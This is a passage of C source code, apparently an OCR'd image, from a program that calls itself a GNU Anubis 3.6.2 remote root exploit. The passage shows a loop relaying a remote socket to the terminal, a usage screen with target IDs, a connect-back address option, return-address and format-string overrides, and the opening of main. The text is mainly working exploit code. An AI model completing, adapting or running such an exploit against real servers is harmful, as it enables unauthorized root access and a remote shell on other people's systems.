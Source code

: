        if (FD_ISSET(csock, &readtmp)) {
            if ( (n = read(csock, inbuf, sizeof(inbuf))) < 0) {
                perror("read()");
                break;
            }
            if (n == 0) break;
            if (write(STDOUT_FILENO, inbuf, n) != n) {
                perror("write()");
                return(1);
            }
        }
    }
    return(0);
}


void
usage(char *pname)
{
    int i;

    printf("\nUsage: %s host[:port] targetID [Option(s)]\n", pname);
    printf("\n  Targets:\n");
    for (i=0; targets[i].desc != NULL; i++)
        printf("     %d   -   %s\n", i, targets[i].desc);
    printf("\n  Options:\n");
    printf("    -b ip[:port]  - Local connect back address\n");
    printf("    -l retloc     - Override target retloc\n");
    printf("    -r ret        - Override target ret\n");
    printf("    -w written    - Bytes written by target fmt func\n");
    printf("\n");
}


int
main(int argc, char *argv[])
{
    u_char buf[BUFSIZE+1];
    u_char fmt[220];
    char *chunk = NULL;
    struct sockaddr_in taddr;
    struct sockaddr_in laddr;
    u_short auth_port;
    struct target *tgt;
    pid_t pid1, pid2;
    u_int ret = 0;
    int lsock;
    char *pt;
    int i;


    printf("\n     GNU Anubis 3.6.2 remote root exploit by CMN\n");
    if (argc < 3) {
        usage(argv[0]);
        exit(EXIT_FAILURE);
    }
    printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
